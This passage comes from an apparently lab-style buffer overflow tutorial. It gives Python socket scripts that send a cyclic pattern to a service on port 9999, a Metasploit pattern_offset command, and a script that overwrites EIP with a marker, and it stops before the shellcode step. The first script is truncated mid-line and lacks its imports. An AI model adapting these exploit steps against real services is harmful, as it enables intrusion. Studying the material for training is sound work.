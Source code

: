 ```python
port = 9999

if __name__ == '__main__':

        buffer = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6>

        try:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect((ip_adress, port))

                data = s.recv(1024)
                s.send("%s\r\n" % buffer)
                data = s.recv(1024)
                s.close()

        except:
                print "\n[*] No me la container bro"
                sys.exit(1)
```
### <span style="color:#d32e9d">Step 3 
Find the offset 
```bash
msf-pattern_offset -q CHARS_IN_EIP
```
### <span style="color:#d32e9d">Step 4
Send extra chars to confirm if you do have control of EIP by filling it with BBBB

**Note:** Change <OFFSET> with your pattern_offset output number
```python
#!/usr/bin/python

import socket

ip_adress = '192.168.20.117'
port = 9999

offset = "A"*<OFFSET>
EIP = "B"*4
buffer = offset + EIP 

if __name__ == '__main__':


        try:

                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect((ip_adress, port))

                data = s.recv(1024)
                s.send("%s\r\n)" % buffer)
                data = s.recv(1024)
                s.close()

        except:

                print "\n[*] No me la container"
                sys.exit(1)
```
### <span style="color:#d32e9d">Step 5
Now that we know we can control the ESP and made room for our shellcode, we need to remove the possibility of any bad characters.